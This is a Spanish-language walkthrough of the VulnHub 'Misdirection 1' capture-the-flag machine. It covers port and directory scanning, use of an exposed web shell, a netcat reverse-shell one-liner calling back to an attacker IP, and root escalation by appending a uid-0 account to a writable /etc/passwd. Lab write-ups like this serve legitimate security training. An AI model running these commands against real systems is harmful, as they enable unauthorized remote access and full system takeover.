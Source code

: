 # VulnHub Misdirection 1

[VulnHub Misdirection 1](https://www.vulnhub.com/entry/misdirection-1,371/) Obtener las banderas de usuario y de root

## Tabla de contenidos
- [Enumeration](#enumeration)
- [Foothold](#foothold)
- [Privileges escalation](#privilege-escalation)

# Enumeration
Para empezar, necesitamos obtener la dirección IP de Fristi
```bash
sudo arp-scan -l
```
Una vez tengamos la IP, vamos a realizar un escaneo de puertos utilizando nmap. Esto nos permitirá identificar qué servicios están activos en nuestro objetivo y así poder planificar nuestra estrategia con mayor precisión
```bash
nmap -sV 10.0.1.26
```
Resultado:
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 17:47 EDT
Nmap scan report for 10.0.1.26
Host is up (0.00096s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Rocket httpd 1.2.6 (Python 2.7.15rc1)
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.39 seconds
```

# Foothold
El puerto 80 tiene una pagina tipica de wordpress, el puerto 8080 tiene pa pagina principal pordefecto de Apache, podemos realizar un escaneo con dirsearch por si enocntramos directorios ocultos
```bash
dirsearch -u http://10.0.1.26:8080
```
```bash
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_10.0.1.26_8080/_24-05-14_18-08-15.txt

Target: http://10.0.1.26:8080/

[18:08:15] Starting: 
[18:08:17] 301 -  310B  - /js  ->  http://10.0.1.26:8080/js/                
[18:08:17] 403 -  297B  - /.ht_wsr.txt                                      
[18:08:17] 403 -  300B  - /.htaccess.bak1                                   
[18:08:17] 403 -  300B  - /.htaccess.orig
[18:08:17] 403 -  302B  - /.htaccess.sample                                 
[18:08:17] 403 -  300B  - /.htaccess.save
[18:08:17] 403 -  300B  - /.htaccess_orig                                   
[18:08:17] 403 -  298B  - /.htaccessBAK
[18:08:17] 403 -  298B  - /.htaccessOLD                                     
[18:08:17] 403 -  301B  - /.htaccess_extra
[18:08:17] 403 -  299B  - /.htaccessOLD2
[18:08:17] 403 -  291B  - /.html                                            
[18:08:17] 403 -  298B  - /.htaccess_sc                                     
[18:08:17] 403 -  300B  - /.htpasswd_test                                   
[18:08:17] 403 -  296B  - /.htpasswds                                       
[18:08:17] 403 -  290B  - /.htm                                             
[18:08:17] 403 -  297B  - /.httr-oauth                                      
[18:08:19] 403 -  290B  - /.php                                             
[18:08:45] 301 -  311B  - /css  ->  http://10.0.1.26:8080/css/              
[18:08:46] 301 -  313B  - /debug  ->  http://10.0.1.26:8080/debug/          
[18:08:46] 200 -    3KB - /debug/                                           
[18:08:47] 200 -  404B  - /development/                                     
[18:08:54] 301 -  312B  - /help  ->  http://10.0.1.26:8080/help/            
[18:08:54] 200 -  400B  - /help/                                            
[18:08:55] 200 -  404B  - /images/                                          
[18:08:55] 301 -  314B  - /images  ->  http://10.0.1.26:8080/images/        
[18:08:58] 200 -  403B  - /js/                                              
[18:09:02] 301 -  314B  - /manual  ->  http://10.0.1.26:8080/manual/        
[18:09:20] 200 -  399B  - /scripts/                                         
[18:09:20] 301 -  315B  - /scripts  ->  http://10.0.1.26:8080/scripts/      
[18:09:21] 403 -  299B  - /server-status                                    
[18:09:21] 403 -  300B  - /server-status/                                   
[18:09:22] 301 -  313B  - /shell  ->  http://10.0.1.26:8080/shell/          
[18:09:22] 200 -  404B  - /shell/                                           
[18:09:40] 200 -    1KB - /wordpress/wp-login.php                           
[18:09:40] 200 -    4KB - /wordpress/                                       
                                                                             
Task Completed 
```
En la página http://10.0.1.26:8080/debug, hay un shell web que está siendo utilizado por el usuario www-data

# Privilege escalation
Ahora, nuestro próximo paso es elevar privilegios. Comenzaremos por examinar los permisos del usuario www-data
```bash
p0wny@shell:…/html/debug# sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
```
Resulta que el usuario actual tiene acceso al bash del usuario 'brexit' mediante el comando 'sudo'. Antes de avanzar, podemos crear un shell inverso desde el shell web para obtener un acceso más estable, lo primero que haremos sera escuchar desde una terminal por netcat
```bash
nc -lvnp 1234
```
Este comando es un método para establecer una conexión de shell inverso entre dos máquinas a través de la red. Primero, se borra cualquier archivo llamado 'f' en el directorio /tmp/ y se crea un FIFO llamado 'f'. Luego, se utiliza el comando cat para leer la entrada del FIFO, y se canaliza hacia /bin/sh -i que ejecuta una shell interactiva. La salida estándar y de error de esta shell se redirige al mismo lugar, y todo esto se canaliza a través de nc (netcat) para establecer una conexión TCP a una dirección IP y puerto específicos. Finalmente, la salida de nc se redirige de vuelta al FIFO, cerrando así el ciclo y permitiendo la interacción remota con el shell en la máquina objetivo
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.1.15 1234 >/tmp/f
```
Ahora podremos acceder al usuario 'brexit'
```bash
sudo -u brexit /bin/bash
```
Para mejorar la estabilidad de la terminal, podemos usar el siguiente comando:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
La primera flag se encuentra en el directorio /home de brexit
```bash
brexit@misdirection:/var/www/html/debug$ cd         
cd
brexit@misdirection:~$ ls
ls
start-vote.sh  user.txt  web2py
brexit@misdirection:~$ cat user.txt
cat user.txt
404b9193154be7fbbc56d7534cb26339
```
Podemos ver si el suaurio brexit tiene algun tipo de acceso algun fichero de /etc, y ver si podemos usar algo para obtener acceso root
```bash
brexit@misdirection:~$ ls -l /etc | grep $(whoami)
ls -l /etc | grep $(whoami)
-rwxrwxr-- 1 root brexit     1617 May 14 21:43 passwd
```
Con esta información, podemos crear fácilmente un nuevo usuario con privilegios de root y añadirlo al archivo /etc/passwd. Utilizaremos OpenSSL para generar un hash de contraseña."
```bash
┌──(kali㉿kali)-[~]
└─$ openssl passwd 211099
$1$QQc5JUNE$ohKuCpSe6K7QcPTgg.MQH1
```
Después de obtener el hash, creamos el usuario y lo agregamos al archivo /etc/passwd
```bash
echo 'hacker:$1$QQc5JUNE$ohKuCpSe6K7QcPTgg.MQH1:0:0::/root/bin/bash' >> /etc/passwd
```
```bash
brexit@misdirection:~$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
- - - - - 
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
hacker:$1$QQc5JUNE$ohKuCpSe6K7QcPTgg.MQH1:0:0::/root/bin/bash
```
inalmente, podremos cambiar al usuario recién creado, obteniendo acceso de superusuario, y al navegar a la carpeta /root, encontraremos la última flag
```bash
brexit@misdirection:~$ su hacker
su hacker
Password: 211099

# cd /root
cd /root
# ls
ls
root.txt
# cat root.txt
cat root.txt
0d2c6222bfdd3701e0fa12a9a9dc9c8c
```